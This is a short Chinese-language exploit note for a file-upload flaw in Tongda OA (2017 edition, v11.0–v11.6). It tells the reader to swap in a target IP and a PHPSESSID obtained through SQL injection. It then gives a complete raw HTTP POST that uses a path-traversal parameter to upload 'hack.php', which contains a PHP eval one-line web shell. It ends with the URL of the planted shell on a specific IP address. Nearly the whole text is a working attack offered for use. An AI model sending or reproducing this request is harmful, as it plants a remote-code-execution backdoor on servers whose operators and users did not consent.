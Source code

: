 # 通达oa后台上传generaldata_centerutilsupload.php 2017版v11.0-v11.6

    ## **影响版本:2017版/v11.0-v11.6**

修改目标IP与Cookie中PHPSESSID的值(SQL注入获取到的SID)

```
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host: 60.190.185.74
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 171
Cookie: PHPSESSID=bvdnf1pq3ag7c7gej46f6i4g80;_SERVER=
Content-Type: multipart/form-data; boundary=c634d2ccb38357de0be7d154d21ebf07

--c634d2ccb38357de0be7d154d21ebf07
Content-Disposition: form-data; name="FILE1"; filename="hack.php"

<?php eval(@$_POST['a']); ?>
--c634d2ccb38357de0be7d154d21ebf07--
```

http://60.190.185.74:88/_hack.php
